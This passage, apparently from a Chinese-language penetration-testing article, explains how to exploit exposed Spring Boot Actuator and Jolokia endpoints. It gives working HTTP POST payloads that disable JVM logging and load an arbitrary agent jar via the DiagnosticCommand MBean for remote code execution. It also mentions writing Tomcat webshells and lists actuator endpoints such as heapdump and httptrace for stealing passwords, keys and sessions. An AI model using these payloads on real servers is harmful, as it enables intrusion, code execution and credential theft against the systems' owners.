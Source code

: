 ```
Content-Length: 117

{"mbean": "com.sun.management:type=DiagnosticCommand","operation": "vmLog", "type": "EXEC", "arguments": ["disable"]}
```  
  
加载agent  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 149

{"mbean": "com.sun.management:type=DiagnosticCommand","operation": "jvmtiAgentLoad", "type": "EXEC", "arguments": ["D:\\Downloads\\springagent.jar"]}
```  
  
这部分代码不在.java源码中，似乎在so/dll中。  
  
https://github.com/AdoptOpenJDK/openjdk-jdk/blob/9d8ad2ed62325bd8d813974d5aa1e031ed8bf8da/src/hotspot/share/services/diagnosticCommand.cpp#L886  
  
  
5，tomcat  
  
尽管jolokia一般在springboot中使用，但在实战中也碰到过原生tomcat用的，此时可能存在更多的Mbean，同时也支持jsp的webshell，利用起来更加容易。  
  
比如类似CVE-2022-22965的改tomcat日志写webshell的手法。  
  
https://github.com/laluka/jolokia-exploitation-toolkit/blob/main/exploits/file-write-to-rce-valve.md  
  
  
四、	其他常用端点  
  
  
/actuator/heapdump  
  
最常用的端点，直接dump出整个jvm内存，里面可能包含数据库账户密码/shirokey/acesskey/session等等敏感的东西。  
  
https://github.com/whwlsfb/JDumpSpider  
  
/actuator/httptrace  
  
/actuator/trace  
  
展示最近的http请求信息，很容易泄露session，危害较高  
  
/actuator/configprops  
  
和env类似，展示properties，危害中等  
  
/actuator/mappings  
  
展示请求映射信息，会泄露API，危害中等  
  
/actuator/metrics  
  
应用程序健康状况相关key，/actuator/metrics/jvm.memory.max这样可以访问对应的value，危害较低  
  
/actuator/beans  
  